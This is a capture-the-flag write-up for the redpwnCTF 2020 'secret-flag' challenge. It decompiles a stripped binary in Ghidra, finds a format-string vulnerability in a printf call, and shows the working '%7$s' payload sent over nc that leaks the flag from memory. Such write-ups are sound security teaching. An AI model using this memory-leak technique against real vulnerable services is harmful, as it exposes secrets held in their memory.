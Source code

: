 # secret-flag

>There's a super secret flag in printf that allows you to LEAK the data at an address??

> nc 2020.redpwnc.tf 31826

Files provided:
* the-secret:   ELF64 file

This file is stripped:
```sh
$ file ./the-secret
secret-flag: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=03c6845dc54ee5f3cef2d41be905ca0a7065ebef, stripped
```

So, let's analyze it with `Ghidra`:

![alt text](img/the-secret-chl-1.png?raw=true "Ghidra")

`FUN_0010091a` seems to be the `main`.

As we can see, the content of `flag.txt` is put into `__buf`

Take a look to these lines:
```c
20  fgets(local_28,0x14,stdin);
21  printf("Hello there: ");
22  printf(local_28);
```

Clearly, there is a `format-string` vulnerability, so we can use it to read the string `__buf`.

Exactly we have to read the 7th parameter as a string to leak the `flag`.

```sh
$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
%7$s
Hello there: flag{n0t_s0_s3cr3t_f1ag_n0w}
```

So, here's the flag: `flag{n0t_s0_s3cr3t_f1ag_n0w}`.

